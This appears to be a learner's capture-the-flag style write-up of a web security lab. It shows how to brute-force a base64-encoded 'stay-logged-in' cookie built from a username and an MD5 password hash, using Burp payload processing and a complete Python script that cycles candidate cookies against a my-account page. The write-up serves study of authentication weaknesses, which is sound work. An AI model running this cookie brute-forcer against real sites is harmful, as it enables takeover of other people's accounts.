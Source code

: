 This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Candidate passwords

---

**Goal:** Obtain and brute-force Carlos's cookie to gain access to his "My account" page.

**Analysis:** The `stay-logged-in` cookie is stored in base64 and has a md5 password. So i can use carlos in base64 and convert the passwords to md5 to brute-force.
`base64(username:md5(password))`
`base64(carlos:md5(x))`

- Never put hashes in an online application, because that is classed as **breach of information**. Use offline tools like hashcat, but for CTF and other exercises it's fine to use online tools like crackstation. 

The `my-account` request will contain the `stay-logged-in` cookie. This is what we would send to repeater if we had burpsuite pro. 

- Remove the session cookie so it will generate a new session when i get it correct. 
- I'll use the provided password list and i need to use payload processing this time to change the passwords into base64 before trying them against the app.
- Add rule type `Hash` and choose `MD5`
- Add prefix `carlos:`
- Finally add `encode` to convert all of that into `Base64-encode`

![[Pasted image 20240825112420.png]]

`Y2FybG9zOjY3MGIxNDcyOGFkOTkwMmFlY2JhMzJlMjJmYTRmNmJk`

![[Pasted image 20240825112618.png]]

**Solution:** Burp, but i'll also write a script for practice.

```python
#!/usr/bin/python3

import hashlib
import base64
import sys
import urllib3
import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def access_carlos_account(url):
	print("(+) Brute-forcing carlos's password...")
	with open('passwords.txt', 'r') as file:
		for pwd in file:
			hashed_pwd = 'carlos:' + hashlib.md5(pwd.rstrip('\r\n').encode("utf-8")).hexdigest()
			encoded_pwd = base64.b64encode(bytes(hashed_pwd, "utf-8"))
			str_pwd = encoded_pwd.decode("utf-8")
			
			# Perform request
			r = requests.Session()
			my_account = url + "/my-account"
			cookies = {'stay-logged-in': str_pwd}
			req = r.get(my_account, cookies=cookies, verify=False, proxies=proxies)
			if "Log out" in req.text:
				print("(+) Carlos's Password Is: " + pwd)
				sys.exit(-1)
		
		print("(-) Sorry, i couldn't find Carlos's Password...")

def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s <url>' % sys.argv[0])
		print('(+) Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
		
	url = sys.argv[1]
	access_carlos_account(url)

if __name__ == '__main__':
	main()
```



